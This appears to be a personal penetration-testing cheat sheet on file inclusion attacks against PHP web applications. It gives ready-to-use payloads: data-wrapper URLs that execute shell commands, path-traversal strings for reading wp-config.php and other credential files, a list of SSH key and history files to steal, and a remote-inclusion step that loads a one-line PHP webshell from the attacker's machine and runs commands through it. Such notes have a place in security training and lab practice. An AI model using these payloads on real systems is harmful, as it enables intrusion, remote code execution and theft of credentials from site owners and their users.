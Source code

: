 ```yaml
---
category: Uncategorized
tags: []
---
```

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
https://blog.certcube.com/detailed-cheatsheet-lfi-rce-websheels/
https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html

#### LFI
Also try [[5_Contaminating Log Files]]

#### LFISuite - works with cookies!
```bash - kali
git clone https://github.com/D35m0nd142/LFISuite && cd LFISuite
```

```bash - kali
python lfisuite.py
```

Windows wordlist:
```bash - kali
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/Intruders/Windows-files.txt
```

Linux wordlist:
```bash - kali
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/Intruders/Linux-files.txt
```

#### PHP Wrappers

```bash
http://$TARGET/menu.php?file=data:text/plain,hello world
```

```bash
http://$TARGET/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

[[rlwrap]]

[[1._Reverse Shells (WIN)#MSFVenom]]
[[4._File Transfers]]
[[0._PHP_Webshells#PHP]]

---
#### Apache default config file location <<<<<<<<<<<
```
/etc/apache2/sites-available/000-default.conf
```

```
/etc/apache2/sites-enabled/000-default.conf
```

Can you download the source code?  Then just find / grep for password file locations!

==TRY TO GET /home/USER/.ssh/id_rsa==
```
/home/user/.ssh/authorized_keys
```

```
/home/user/.ssh/id_rsa
```

```
/home/user/.ssh/id_rsa.pub
```

```
/home/user/.bash_history
```

```
/var/www/html/wp-config.php
```

#### Webdav creds
```
/var/www/html/webdav/passwd.dav
```

#### Wordpress config.php

Windows location:
```bash - kali
..\..\..\..\..\..\xampp\htdocs\blog\wp-config.php
```

```bash - kali
..\..\..\..\..\..\var\www\html\wordpress\wp-config.php
```

#### PHP  base64 convertor
```bash - kali
?page=php://filter/convert.base64-encode/resource=/../../../../../../../../../../var/www/html/wordpress/wp-config.php
```

#### RFI
==Remember for RFI, the file has to be txt!==

WWOLF:

[[0._PHP_Webshells#wwolf]]

Save as webshell.txt

```
http://$TARGET/image.php?img=http://$KALI/webshell.txt
```

![[Pasted image 20220329093728.png]]

evil.txt:
```php
<?php echo shell_exec($_GET['cmd']); ?>
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```
http://$TARGET/menu.php?file=http://$KALI/evil.txt&cmd=ipconfig
```

#### Terminators
Null byte:
```
%00
```

```
?
```

![[Pasted image 20220506120304.png]]

Just by adding a question mark on this example, we got our webshell to work.

![[Pasted image 20220506120325.png]]

